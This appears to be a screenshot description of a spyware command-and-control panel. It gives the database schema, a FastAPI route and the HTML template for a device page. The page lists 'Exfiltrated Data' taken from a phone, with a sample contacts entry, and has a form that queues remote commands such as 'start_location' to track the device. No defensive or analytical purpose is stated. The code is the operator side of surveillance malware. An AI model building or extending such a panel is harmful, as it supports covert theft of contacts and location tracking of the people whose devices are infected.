
Screenshot of /device/test-device-123 with the database file from the repository.
### tables this page shows
CREATE TABLE exfil_data (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            device_id TEXT NOT NULL,
            data_type TEXT NOT NULL,
            payload TEXT,
            filename TEXT,
            created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
        );

CREATE TABLE commands (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            device_id TEXT NOT NULL,
            cmd TEXT NOT NULL,
            args TEXT,
            status TEXT DEFAULT 'pending',
            created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
            executed_at TIMESTAMP
        );

### main.py (the view)
@app.get("/device/{device_id}", response_class=HTMLResponse)
async def device_detail(request: Request, device_id: str):
    return templates.TemplateResponse("device.html", {
        "request": request,
        "device_id": device_id,
        "exfil": get_exfil_data(device_id, limit=50),
        "commands": get_all_commands(device_id, limit=50)
    })

### templates/device.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <div class="header">
        <h1>Device: {{ device_id[:24] }}...</h1>
        <a href="/">Back to Dashboard</a>
    </div>
    <div class="content">
        <div class="section-title">Send Command</div>
        <div class="cmd-form">
            <select id="cmd">
                <option value="start_location">Start Location</option>
            </select>
            <button onclick="sendCmd()">Send</button>
        </div>
        <div class="section-title">Exfiltrated Data</div>
        <table>
            <thead><tr><th>Type</th><th>Time</th><th>Payload</th></tr></thead>
            <tbody>
            {% for e in exfil %}
            <tr>
                <td>{{ e.data_type }}</td>
                <td>{{ e.created_at }}</td>
                <td class="payload">{{ e.payload[:100] if e.payload else '' }}</td>
            </tr>
            {% endfor %}
            </tbody>
        </table>
        <div class="section-title">Command History</div>
        <table>
            <thead><tr><th>Command</th><th>Status</th><th>Created</th><th>Executed</th></tr></thead>
            <tbody>
            {% for c in commands %}
            <tr>
                <td>{{ c.cmd }}</td>
                <td class="status-{{ c.status }}">{{ c.status }}</td>
                <td>{{ c.created_at }}</td>
                <td>{{ c.executed_at or '-' }}</td>
            </tr>
            {% endfor %}
            </tbody>
        </table>
    </div>
</body>
</html>

### templates/device.html (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', sans-serif; background: #0a0a0a; color: #e0e0e0; }
.header { background: #111; padding: 20px 30px; border-bottom: 1px solid #333; }
.header h1 { color: #00ff88; font-size: 24px; }
.header a { color: #666; font-size: 14px; margin-left: 20px; }
.content { padding: 20px 30px; }
.section-title { color: #00ff88; font-size: 18px; margin: 20px 0 15px; }
table { width: 100%; border-collapse: collapse; }
th, td { padding: 10px 12px; text-align: left; border-bottom: 1px solid #222; font-size: 13px; }
th { background: #111; color: #666; font-size: 11px; text-transform: uppercase; }
.cmd-form { margin: 20px 0; display: flex; gap: 10px; align-items: center; }
.cmd-form select, .cmd-form input { background: #111; border: 1px solid #333; color: #e0e0e0; padding: 8px 12px; border-radius: 4px; }
.cmd-form button { background: #00ff88; color: #000; border: none; padding: 8px 20px; border-radius: 4px; cursor: pointer; font-weight: bold; }
.payload { max-width: 500px; overflow: hidden; text-overflow: ellipsis; white-space: nowrap; color: #888; }
.status-sent { color: #00ff88; }

### rows the page displays
exfil_data: data_type "contacts", created_at "2026-07-23 04:52:24", payload "John:555-1234"
commands: cmd "start_location", status "sent", created_at "2026-07-23 04:52:24", executed_at "2026-07-23 04:52:24"

### other values shown
{{ device_id[:24] }} "test-device-123"
